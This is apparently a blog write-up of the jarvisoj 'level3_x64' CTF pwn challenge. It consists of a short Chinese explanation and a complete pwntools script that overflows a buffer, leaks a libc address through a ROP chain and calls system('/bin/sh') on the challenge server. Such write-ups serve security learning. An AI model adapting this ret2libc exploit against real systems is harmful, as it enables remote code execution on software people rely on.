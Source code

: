 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level3_x64
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level3_x64.rar.8e639c3daf929853a1bc654d79c7992c

Address:
nc pwn2.jarvisoj.com 9883
```
<!-- more -->


### 0x01 exploit

缓冲区

![](/assets/img/ctf/pwn/2017-07-13-jarvisoj-level3_x64/0x00.png)

![](/assets/img/ctf/pwn/2017-07-13-jarvisoj-level3_x64/0x01.png)

构造rop链，调用write(0, read_got, 0x08)，打印got表read()的地址

![](/assets/img/ctf/pwn/2017-07-13-jarvisoj-level3_x64/0x02.png)

计算偏移，构造system("/bin/sh")

![](/assets/img/ctf/pwn/2017-07-13-jarvisoj-level3_x64/0x03.png)

最终exploit如下

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

elf = ELF('level3_x64')
libc = ELF('libc-2.19.so')

read_libc_addr = libc.symbols['read']
system_libc_addr = libc.symbols['system']
exit_libc_addr = libc.symbols['exit']
bin_sh_libc_addr = 0x17C8C3

junk = 'A' * (0x80 + 0x08)
pop_rdi_ret_addr = 0x4006b3
pop_rsi_ret_addr = 0x4006b1
read_got_addr = elf.got['read']
write_plt_addr = elf.plt['write']
main_addr = elf.symbols['main']

Io = remote('pwn2.jarvisoj.com', 9883)

payload = junk + p64(pop_rdi_ret_addr) + p64(0x01) + p64(pop_rsi_ret_addr) + p64(read_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)
Io.recvuntil("Input:\n")

Io.send(payload)

temp = Io.recv(8)

read_addr = u64(temp[0:8])
offset = read_addr - read_libc_addr

system_addr = system_libc_addr + offset
exit_addr = exit_libc_addr + offset
bin_sh_addr = bin_sh_libc_addr + offset

payload = junk + p64(pop_rdi_ret_addr) + p64(bin_sh_addr) + p64(system_addr) + p64(exit_addr)

Io.send(payload)
Io.interactive()
```

得到flag

![](/assets/img/ctf/pwn/2017-07-13-jarvisoj-level3_x64/0x04.png)